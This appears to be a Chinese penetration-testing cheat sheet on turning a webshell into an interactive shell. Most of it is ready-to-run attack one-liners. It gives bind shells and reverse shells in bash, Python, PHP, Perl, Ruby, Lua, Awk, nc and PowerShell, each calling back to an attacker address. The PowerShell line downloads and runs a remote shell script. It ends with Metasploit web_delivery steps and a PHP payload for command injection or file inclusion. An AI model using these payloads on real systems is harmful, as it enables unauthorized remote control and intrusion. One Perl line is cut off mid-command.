 shell
========================================

webshell升级为交互式shell
----------------------------------------

为什么需要交互式shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Webshell 里经常会看到一些 命令执行, 虚拟终端 之类的可以执行系统命令的功能，原理就是通过脚本语言自身提供的 system, popen, shell_exec 之类的函数来完成执行命令的目的。这种方式不支持上下文，并且在面对一些需要用户交互的命令时，就显得很鸡肋了。

比如说passwd命令:
	- root@localhost:/# passwd root
	- Enter new UNIX password: [这里需要用户按下键盘]
	- Retype new UNIX password: [这里需要用户按下键盘]

存在问题：
	- 无法使用vim等文本编辑器
	- 不能补全
	- 不能su
	- 没有向上箭头使用历史

正向shell
----------------------------------------

nc正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``nc -l 1567 -e /bin/bash -i`` 
	``nc -lvp 1567 -e c:\windows\system32\cmd.exe`` 
- client
	``nc 172.31.100.7 1567`` 

socat正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``socat TCP-LISTEN:12345 EXEC:/bin/bash`` 
- client
	``nc 192.168.x.x 12345`` 


反弹shell
----------------------------------------

什么是反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

为什么需要反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通常用于被控端因防火墙受限、权限不足、端口被占用等情形。
举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

- 如下情况：
	- 1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。
	- 2.目标机器的ip动态改变，你不能持续控制。
	- 3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。
	- 4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

	那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

常用反弹shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- 各种shell

::

	注：需区分服务器的sh类型，可使用which sh查询。
	不同的sh，影响不同的反向shell是否可以成功。

- bash反向shell

::

	vps：nc -lvp 4444
	bash -i >& /dev/tcp/192.168.174.130/4444 0>&1

- python反向shell

::

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

- php反向shell

::

	php -r '$sock=fsockopen("192.168.174.130",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

- Perl反向shell 

::

	perl -e 'use Socket;$i="192.168.174.130";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	linux：perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
	windwos：perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->f

- socat反向shell

::

	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.130:4444

- Ruby反向shell

::

	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.174.130","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	linux：ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	windows：ruby -rsocket -e 'c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

- Lua反向shell

::

	lua -e "require('socket');require('os');t=socket.tcp();t:connect('192。168.174.130','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');"

- Awk反向shell

::

	awk 'BEGIN{s="/inet/tcp/0/192.168.174.130/4444";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'

- exec反向shell 

::

	exec 5<>/dev/tcp/192.168.174.130/4444 cat <&5 | while read line; do $line 2>&5 >&5; done
	0<&196;exec 196<>/dev/tcp/192.168.174.130/4444; sh <&196>&196 2>&196

- nc反向shell

::

	client(vps)：nc -lvp 1567
	server：nc 172.31.100.7 1567 -e /bin/bash
	server：nc 192.168.174.130 9999 -e c:\windows\system32\cmd.exe
	server：rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.174.130 4444 >/tmp/f

- powershell反弹shell

::

	apt-get install powshell
	powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.174.130 -port 4444

shell升级为交互式shell
-----------------------------------------

- 半交互式shell

::

	通常我们nc获得的shell都是不完全shell，需要通过Python的pty转换为半交互式shell。 
	python -c "import pty;pty.spawn('/bin/bash')"
	可以运行su命令。

- 完全交互式Shell

::

	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z
	$ stty raw -echo
	$ fg
	$ reset
	$ export SHELL=bash
	//$ export TERM=xterm-256color


shell升级为meterpreter
-----------------------------------------
- web_delivery模块
	背景：
		目标设备存在远程文件包含漏洞或者命令注入漏洞，想在目标设备上加载webshell，但不想在目标设备硬盘上留下任何webshell文件信息.
	
	::
	
		使用步骤:
		1、use exploit/multi/script/web_delivery
		2、set target PHP   ====>因为一般web平台默认支持PHP，所以我们选择兼容性最好的PHP做webshell
		3、set payload php/meterpreter/reverse_tcp    ====>选择php写的meterpreter
		4、set lhost 172.20.163.160
		5、set lport 1111
		6、run

	|shell1|
	
	利用方式：
		命令注入漏洞： ``php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.20.163.160:1111/OgsOFaj3yKH'));"`` 
		远程文件包含漏洞： ``http://172.20.163.160:1111/OgsOFaj3yKH`` 


.. |shell1| image:: ../images/shell1.png